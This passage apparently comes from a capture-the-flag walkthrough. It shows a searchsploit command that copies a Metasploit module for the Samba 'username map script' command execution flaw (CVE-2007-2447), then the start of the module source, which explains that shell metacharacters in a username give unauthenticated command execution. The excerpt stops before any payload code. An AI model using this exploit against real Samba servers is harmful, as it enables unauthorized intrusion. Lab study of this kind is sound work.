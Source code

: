 ```
root@kali# searchsploit -m exploits/unix/remote/16320.rb
      Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
          URL: https://www.exploit-db.com/exploits/16320
         Path: /usr/share/exploitdb/exploits/unix/remote/16320.rb
    File Type: Ruby script, ASCII text, with CRLF line terminators
    
    Copied to: /root/hackthebox/forwardslash-10.10.10.183/16320.rb
    
```


It’s pretty short:

```

    ##
    # $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
    ##
    
    ##
    # This file is part of the Metasploit Framework and may be subject to
    # redistribution and commercial restrictions. Please see the Metasploit
    # Framework web site for more information on licensing and terms of use.
    # http://metasploit.com/framework/
    ##
    
    require 'msf/core'
    
    class Metasploit3 < Msf::Exploit::Remote
            Rank = ExcellentRanking
    
            include Msf::Exploit::Remote::SMB
    
            # For our customized version of session_setup_ntlmv1
            CONST = Rex::Proto::SMB::Constants
            CRYPT = Rex::Proto::SMB::Crypt
    
            def initialize(info = {})
                    super(update_info(info,
                            'Name'           => 'Samba "username map script" Command Execution',
                            'Description'    => %q{
                                            This module exploits a command execution vulnerability in Samba
                                    versions 3.0.20 through 3.0.25rc3 when using the non-default
                                    "username map script" configuration option. By specifying a username
                                    containing shell meta characters, attackers can execute arbitrary
                                    commands.
    
                                    No authentication is needed to exploit this vulnerability since
                                    this option is used to map usernames prior to authentication!
                            },
                            'Author'         => [ 'jduck' ],
                            'License'        => MSF_LICENSE,
                            'Version'        => '$Revision: 10040 $',
                            'References'     =>
                                    [
                                            [ 'CVE', '2007-2447' ],
                                            [ 'OSVDB', '34700' ],
                                            [ 'BID', '23972' ],
                                            [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
```